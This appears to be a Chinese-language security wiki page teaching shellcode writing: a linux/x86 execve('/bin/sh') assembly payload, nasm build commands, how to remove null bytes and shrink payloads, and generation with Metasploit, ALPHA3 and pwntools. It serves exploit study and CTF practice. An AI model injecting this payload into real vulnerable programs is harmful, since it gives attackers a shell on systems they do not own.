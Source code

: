 # Shellcode

Shellcode 是一小段代码, 在漏洞利用后用于注入到目标程序中执行. 常见的一个功能是获取 shell 因此得名.  

## 编写

以下是一段简单的 shellcode 代码:  

```asm
# linux/x86 execve("/bin/sh", 0, 0) 21 bytes
global _start
_start:
    xor  edx, edx ;; argv = 0
    xor  ecx, ecx ;; envp = 0
    push ecx
    push "/sh"
    push "/bin"
    mov  ebx, esp ;; pathname = "/bin/sh"
    mov  al, 0xb  ;; execve NR
    int  0x80     ;; syscall
```

可以使用在线工具 [Compiler Explorer](https://godbolt.org/) 进行编译, 在 Linux 下可以使用 [NASM](https://www.nasm.us/) 进行编译:  

```sh
nasm -f elf32 shellcode.asm             # 编译
ld -m elf_i386 -o shellcode shellcode.o # 链接
objdump -d shellcode                    # 打印反汇编结果
```

设置参数并将系统调用的 NR(number) 写入指定寄存器后触发中断即可. 其它指令集的用法有所不同, 具体使用方式请参考 [Linux 系统调用](https://publicki.top/syscall.html).  

## 定制

根据漏洞的具体情况, shellcode 会受到一定限制. 下面将简要说明如何满足这些限制.  

### 限制能使用的字符

以常见的 bad char 0x00('\0') 为例, 观察二进制代码会发现 `push "/sh"` 由于参数大小为 24 比特, 因此被当作 imm32. 最后多出的一字节使用 0 填充, 产生了 0x00, 使得该 shellcode 无法作为一个 C-style 的字符串.  
将该命令改为 `push "//sh` 即可在不影响程序运行/不增加大小的情况下消除这个 0x00.  
传递给 execve 的两个参数也为 0, 这里使用 xor 来将寄存器的值改为 0, 避免直接以 0 作为立即数而导致产生 0x00.  

### 限制长度

手工编写专用的 shellcode, 以实现体积最小化. 还可以将体积较大的 shellcode 存放在其他位置(对大小不敏感, 但不能执行), 然后搜索并执行.  

!!! info "CTF"
    可能限制系统调用的使用, 此时需要编写专门的 shellcode 只通过可用的系统调用完成任务.  

## 生成

- 利用 [MSF](./Metasploit.md) 生成 shellcode, 可定制.
- 利用 [ALPHA3](https://github.com/TaQini/alpha3) 生成由可见字符集构成的 shellcode.
- 利用 [pwntools](https://github.com/Gallopsled/pwntools) 生成特定架构和系统的 shellcode, 不可定制.

    ```py
    from pwn import *
    context(arch = 'i386', os = 'linux') # linux/x86
    print shellcraft.sh()      # 输出 shellcode 汇编代码
    print asm(shellcraft.sh()) # 输出 shellcode 二进制代码
    ```

## 拓展

- [Exploit Database Shellcodes](https://www.exploit-db.com/shellcodes)
- <http://shell-storm.org/shellcode/>
